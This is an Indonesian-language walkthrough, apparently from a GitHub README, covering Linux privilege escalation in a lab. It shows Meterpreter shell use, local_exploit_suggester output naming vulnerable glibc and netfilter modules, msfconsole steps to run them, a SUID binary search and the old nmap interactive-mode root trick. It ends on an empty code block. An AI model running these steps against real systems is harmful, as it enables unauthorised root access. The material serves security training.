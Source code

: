 
5. **_Privilege escalation_**

- Menggunakan shell linux untuk eksplorasi
```
meterpreter > shell
```
```
whoami
```
- Cek login root
```
sudo -i, atau
sudo -l
```
- Jika tidak bisa login, cari kerentanan lain (shell meterpreter)
```
meterpreter > run post/multi/recon/local_exploit_suggester
```
```
[*] 192.168.175.90 - Valid modules for session 1:
============================
 #   Name                                                               Potentially Vulnerable?  Check Result
 -   ----                                                               -----------------------  ------------
 1   exploit/linux/local/glibc_ld_audit_dso_load_priv_esc               Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/glibc_origin_expansion_priv_esc                Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/netfilter_priv_esc_ipv4                        Yes                      The target appears to be vulnerable.
```
- Pilih dan gunakan modul yang disarankan (bertanda YES)
```
Meterpreter > backgroud		//kembali ke msf tanpa keluar session 
sessions				          //cek session yang tersedia
use [modul]			        	//pilih modul hasil scanning
set RHOSTS [IP_target]		//atur IP target
set LHOST [IP_attacker]		//atur IP penyerang
set SESSION [ID_session]	//atur session yang dipilih
run				               	//jalankan modul
sessions -i [id]		    	//untuk kembali ke meterpreter
```
- Jika semua modul sudah dicoba dan masih gagal, cari kerentanan yang lain
```
meterpreter > shell
```
- Mencari SUID binary yang rentan
```
find / -perm -u=s -type f 2>/dev/null
```
```
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap	         //memanfaatkan celah pada versi nmap lama
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
```
Versi Nmap yang lama memiliki mode interaktif (_--interactive_) yang memungkinkan pengguna menjalankan perintah shell dengan hak akses root. Saat menjalankan Nmap dalam mode interaktif (_--interactive_), pengguna akan mendapatkan prompt nmap>. Pada titik ini, Nmap tidak lagi berfungsi sebagai pemindai, tetapi sebagai antarmuka interaktif yang dapat mengeksekusi perintah-perintah internalnya sendiri. Jadi, ketika pengguna mengetik !sh atau !bash, pengguna memberitahu Nmap untuk "jalankan shell baru untuk saya".
- Eksploitasi akses root pada celah ini
```
```